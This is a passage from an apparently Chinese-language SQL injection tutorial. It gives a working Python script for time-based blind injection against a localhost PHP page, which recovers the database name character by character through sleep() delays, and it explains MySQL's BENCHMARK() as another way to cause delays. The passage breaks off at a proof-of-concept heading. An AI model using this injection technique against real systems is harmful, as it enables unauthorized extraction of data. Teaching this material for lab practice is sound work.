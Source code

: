 ```text
import requests
import time

for i in range(1,5):
    for num in range(27,122):
        url = r'http://127.0.0.1/time.php?id=1%20%20%27%20and%20if(ord(substr(database(),'+str(i)+',1))='+str(num)+',sleep(5),1)%20--+'
        start = time.clock()
        r = requests.get(url)
        elapsed = (time.clock() - start)
        if elapsed >= 3:
            print('数据库名称第'+ str(i) + '位为：' + chr(num))
            break
```

![](../../../.gitbook/assets/tu-pian%20%2859%29.png)

至此，我们已经得到数据库名称`test` 。

同样的，我们也可以利用`benchmark()` 函数来完成同样的操作，首先我们先了解一下这个函数是做什么的。

```text
BENCHMARK(count,expr)
```

`BENCHMARK()`用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。（这是一种边信道攻击，在运行过程中占用大量的cpu资源。）

```text
select benchmark(25000000,md5('test'))
```

![](../../../.gitbook/assets/tu-pian%20%2829%29.png)

我们可以看到，消耗时间为`5.6445` 秒。

POC：
